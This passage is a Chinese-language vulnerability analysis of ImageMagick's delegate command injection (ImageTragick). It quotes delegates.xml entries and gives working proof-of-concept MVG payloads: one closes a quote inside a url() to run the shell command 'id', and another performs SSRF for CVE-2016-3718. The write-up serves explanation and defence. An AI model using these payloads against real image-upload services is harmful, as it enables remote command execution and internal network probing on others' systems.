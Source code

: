 ```
  <delegate decode="shtml" command="&quot;html2ps&quot; -U -o &quot;%o&quot; &quot;%i&quot;"/>
  <delegate decode="svg" command="&quot;rsvg-convert&quot; -o &quot;%o&quot; &quot;%i&quot;"/>
  <delegate decode="txt" encode="ps" mode="bi" command="&quot;enscript&quot; -o &quot;%o&quot; &quot;%i&quot;"/>
  <delegate decode="miff" encode="win" stealth="True" spawn="True" command="&quot;/usr/bin/display&quot; -immutable -delay 0 -window-group %[group] -title &quot;%l &quot; &quot;ephemeral:%i&quot;"/>
  <delegate decode="wmf" command="&quot;wmf2eps&quot; -o &quot;%o&quot; &quot;%i&quot;"/>
  <delegate decode="xps:color" stealth="True" command="&quot;gxps&quot; -dQUIET -dSAFER -dBATCH -dNOPAUSE -dNOPROMPT -dMaxBitmap=500000000 -dAlignToPixels=0 -dGridFitTT=2 &quot;-sDEVICE=ppmraw&quot; -dTextAlphaBits=%u -dGraphicsAlphaBits=%u &quot;-r%s&quot; %s &quot;-sOutputFile=%s&quot; &quot;%s&quot;"/>
  <delegate decode="xps:cmyk" stealth="True" command="&quot;gxps&quot; -dQUIET -dSAFER -dBATCH -dNOPAUSE -dNOPROMPT -dMaxBitmap=500000000 -dAlignToPixels=0 -dGridFitTT=2 &quot;-sDEVICE=bmpsep8&quot; -dTextAlphaBits=%u -dGraphicsAlphaBits=%u &quot;-r%s&quot; %s &quot;-sOutputFile=%s&quot; &quot;%s&quot;"/>
  <delegate decode="xps:mono" stealth="True" command="&quot;gxps&quot; -dQUIET -dSAFER -dBATCH -dNOPAUSE -dNOPROMPT -dMaxBitmap=500000000 -dAlignToPixels=0 -dGridFitTT=2 &quot;-sDEVICE=pbmraw&quot; -dTextAlphaBits=%u -dGraphicsAlphaBits=%u &quot;-r%s&quot; %s &quot;-sOutputFile=%s&quot; &quot;%s&quot;"/>
</delegatemap>

```

我们可以看到，这里它定义了很多占位符，比如%i是输入的文件名，%l是图片exif label信息。而在后面command的位置，%i和%l等占位符被拼接在命令行中。这个漏洞也因此而来，被拼接完毕的命令行传入了系统的system函数，而我们只需使用反引号（`）或闭合双引号，来执行任意命令。

漏洞报告中给出的POC是利用了如下的这个委托：

```
<delegate decode="https" command="&quot;curl&quot; -s -k -o &quot;%o&quot; &quot;https:%M&quot;"/>

```

它在解析https图片的时候，使用了curl命令将其下载，我们看到%M被直接放在curl的最后一个参数内。ImageMagick默认支持一种图片格式，叫mvg，而mvg与svg格式类似，其中是以文本形式写入矢量图的内容，而这其中就可以包含https处理过程。

所以我们可以构造一个.mvg格式的图片（但文件名可以不为.mvg，比如下图中包含payload的文件的文件名为vul.gif，而ImageMagick会根据其内容识别为mvg图片），并在https://后面闭合双引号，写入自己要执行的命令：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|id; ")'
pop graphic-context

```

这样，ImageMagick在正常执行图片转换、处理的时候就会触发漏洞：

[![](http://static.wooyun.org//drops/20160505/2016050510205564018.jpg)](http://drops.wooyun.org/wp-content/uploads/2016/05/14624373793837.jpg)

其他几个CVE也比较有趣，比如CVE-2016-3718，他是利用mvg格式中可以包含url的特点，进行SSRF攻击，POC如下：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://example.com/)'
pop graphic-context

```

